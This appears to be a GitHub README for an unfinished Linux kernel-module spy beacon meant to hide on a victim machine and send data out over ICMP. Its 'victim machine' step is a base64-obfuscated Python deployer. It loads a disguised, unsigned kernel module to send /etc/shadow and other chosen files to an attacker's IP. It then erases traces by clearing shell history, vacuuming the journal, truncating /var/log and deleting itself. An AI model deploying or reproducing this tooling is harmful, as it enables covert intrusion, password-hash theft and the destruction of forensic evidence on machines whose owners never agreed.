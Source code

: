 # Kernel Delirium (Not working yet, still requires development)

## What is it about

My idea was to create a kernel module for linux machine which is basically a beacon to spy on machine using ICMP protocoll which is usually less suspicious then tcp/udp f.ex, so even some firewalls don't mind. Additionally inexperienced System admin is not gonna try to look it up in kernel modules. Maybe in future to hide it better, I'll include the module in the system one

## How to use?

To use this software you should install a desktop app and run deploy_and_clean.py (I recommend to assemble file with base64)on the victim machine

### victim machine

```bash
base64 -d aW1wb3J0IG9zCmltcG9ydCBhcmdwYXJzZQoKI21vZHVsZV9uYW1lIGlzIG5lZWRlZCB0byBoaWRl
IHRoZSBleHBsb2l0IHVuZGVyIHRoZSBuYW1lIHdoaWNoIGlzIG5vdCBzdXNwaWNpb3VzCmRlZiBl
eHBsb2l0X2dlbihleHRlcm5hbF9pcCwgZXh0ZXJuYWxfcG9ydCwgbW9kdWxlX25hbWUgPSAiZXRo
ZXJuZXQuYyIsIGZpbGVzID0gW10sIHVwZGF0ZV9wZXJpb2Q9MSk6CiAgICBNT0RVTEVfQ09ERT0i
IiIiIiIKICAgIHByaW50KGV4dGVybmFsX2lwLCBleHRlcm5hbF9wb3J0LCBtb2R1bGVfbmFtZSwg
dXBkYXRlX3BlcmlvZCkKICAgIHByaW50KGZpbGVzWzBdKQogICAgcHJpbnQoZmlsZXNbMV0pCgpk
ZWYgbG9hZF9tb2R1bGUobW9kdWxlTmFtZSk6CiAgICBNQUtFRklMRT1mIiIiQ09ORklHX01PRFVM
RV9TSUc9bgpvYmotbSArPSB7bW9kdWxlTmFtZX0KCmFsbDoKCXN1ZG8gYXB0LWdldCBpbnN0YWxs
IC0tcmVpbnN0YWxsIC15IGxpbnV4LWhlYWRlcnMtJCh1bmFtZSAtcikKCW1ha2UgLUMgL2xpYi9t
b2R1bGVzLyQoc2hlbGwgdW5hbWUgLXIpL2J1aWxkIE09JChQV0QpIG1vZHVsZXMKCXN1ZG8gaW5z
bW9kIGR2dC1kcml2ZXIua28KCmNsZWFuOgoJbWFrZSAtQyAvbGliL21vZHVsZXMvJChzaGVsbCB1
bmFtZSAtcikvYnVpbGQgTT0kKFBXRCkgY2xlYW4KCXJtIC1yZiAqLmMgKi5vICoua28gKi5tb2Qg
Ki5tb2QuYyIiIgoKICAgIHdpdGggb3BlbigiTWFrZWZpbGVfdHN0IiwgInciKSBhcyBmOgogICAg
ICAgIGYud3JpdGUoTUFLRUZJTEUpCiAgICAjb3Muc3lzdGVtKCIgbWFrZSIpCgoKZGVmIGNsZWFu
dXAoKToKICAgIG9zLnN5c3RlbSgiIG1ha2UgY2xlYW4iKQogICAgb3Muc3lzdGVtKCIgam91cm5h
bGN0bCAtLXZhY3V1bS10aW1lPTEwZCIpCiAgICBvcy5zeXN0ZW0oIiBoaXN0b3J5IC1jIikKICAg
IGZvciBmaWxlIGluIG9zLmxpc3RkaXIoIi92YXIvbG9nIik6CiAgICAgICAgd2l0aCBvcGVuOgog
ICAgICAgICAgICBmaWxlLnRydW5jYXRlKCkKICAgIG9zLnJlbW92ZShfX2ZpbGVfXykKCmRlZiBt
YWluKCk6CiAgICBwYXJzZXIgPSBhcmdwYXJzZS5Bcmd1bWVudFBhcnNlcihkZXNjcmlwdGlvbiA9
ICJUaGlzIHNjcmlwdCBzaG91bGQgYmUgcmFuIGFzIHJvb3Qgb24gZXhwb2l0ZWQgbWFjaGluZSB0
byBjcmVhdGUgYW5kIGxvYWQgYSBzdWl0YWJsZSBmb3IgeW91ciB0YXNrcyBjIGtlcm5lbCBtb2R1
bGUgdG8gc3B5IG9uIHNwZWNpZmljIGZpbGVzIGFuZCBzdGF5IGhpZGRlbiIpCiAgICBwYXJzZXIu
YWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX2lwIiwgdHlwZSA9IHN0ciwgaGVscCA9ICJQcm92aWRl
IGFuIGV4dGVybmFsIG1hY2hpbmUgSVAgQUREUkVTUyB0aGF0IHdpbGwgYmUgdXNlZCIpCiAgICBw
YXJzZXIuYWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX3BvcnQiLCB0eXBlID0gc3RyLCBoZWxwID0g
IlByb3ZpZGUgYW4gZXh0ZXJuYWwgbWFjaGluZSBQT1JUIHRoYXQgd2lsbCBiZSB1c2VkIiwgZGVm
YXVsdD0iMjIiKQogICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1tb2R1bGVfbmFtZSIsIHR5cGUg
PSBzdHIsIGhlbHAgPSAiTmFtZSBvZiB0aGUgbW9kdWxlIGYuZXggZXRoZXJuZXRfbW9kdWxlLCBp
dCdzIGJldHRlciBub3QgdG8gaGF2ZSB2aXJ1cyBvciBleHBvaXQgbmFtZSBvYnZpb3VzbHkiKQog
ICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1maWxlcyIsIHR5cGUgPSBzdHIsIG5hcmdzPSIrIiwg
aGVscD0iSGVyZSBhIGxpc3Qgb2YgZmlsZXMgdG8gYmUgc2VudCBzaG91bGQgYmUgcHJvdmlkZWQg
Zi5leCAvZXRjL2hvc3RzIC9ldGMvc2hhZG93cyIsIGRlZmF1bHQ9Ii9ldGMvc2hhZG93cyIpCiAg
ICBwYXJzZXIuYWRkX2FyZ3VtZW50KCItLXVwZGF0ZV9wZXJpb2QiLCB0eXBlID0gc3RyLCBoZWxw
ID0gIlRoZSBpbnRlcnZhbCBvZiB0aW1lIGluIHdoaWNoIGluZm9ybWF0aW9uIHNob3VsZCBiZSBn
YXRoZXJlZCBhZ2FpbiBhbmQgc2VuZCAoaW4gaG91cnMpLiBZb3Ugc2hvdWxkIGtub3cgdGhhdCB0
byBhdm9pZCBzdXNwaWNpb25zLCB0aW1lIHBlcmlvZCBtYXkgZGlmZmVyIHVwIHRvIDExIG1pbiIs
IGRlZmF1bHQ9IjEiKQogICAgYXJncyA9IHBhcnNlci5wYXJzZV9hcmdzKCkKICAgIGV4cGxvaXRf
Z2VuKGFyZ3MuZXh0ZXJuYWxfaXAsIGFyZ3MuZXh0ZXJuYWxfcG9ydCwgYXJncy5tb2R1bGVfbmFt
ZSwgYXJncy5maWxlcywgYXJncy51cGRhdGVfcGVyaW9kKQogICAgbG9hZF9tb2R1bGUoYXJncy5t
b2R1bGVfbmFtZSkKICAgIGNsZWFudXAoKQogICAgcmV0dXJuIDA7CgppZiBfX25hbWVfXyA9PSAi
X19tYWluX18iOgogICAgbWFpbigpCg== > deploy_and_clean.py`
```

```python
python3 deploy_and_clean.py`
```
### your machine

apt-get install kernel-delirium (Not gonna work yet)
kernel-delirium